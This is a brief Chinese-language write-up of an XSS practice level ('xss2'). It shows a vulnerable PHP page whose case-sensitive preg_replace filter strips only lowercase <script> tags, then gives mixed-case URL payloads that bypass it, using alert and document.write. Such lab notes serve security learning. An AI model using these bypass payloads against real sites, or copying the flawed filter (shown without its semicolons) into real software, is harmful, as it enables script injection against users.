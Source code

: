 # xss2

进入example2.php

传入payload1
```javascript
example2.php?name=<script>alert("hello xss")</script>
```

![img](../../../image/xss/2418902106459.png)
直接打印了alert('hello xss')
应该是过滤了script
源码
```php
<?php
    $name = $_GET['name'];
    $name = preg_replace("/<script>/", "", $name)
    $name = preg_replace("/<\/script>/", "", $name)
?>
```

使用了preg_replace正则替换了\<script>这个标签
但是没有去设定/i来不区分大小写所以可以使用大小写绕过
payload2
```javascript
example2.php?name=<sCriPt>alert('hello xss')</ScRipT>
```
![img](../../../image/xss/4993521126625.png)
payload3
```javascript
example2.php?name=<sCriPt>document.write('hello xss')</ScRiPt>
```
![img](../../../image/xss/18424119294.png)

过关：）~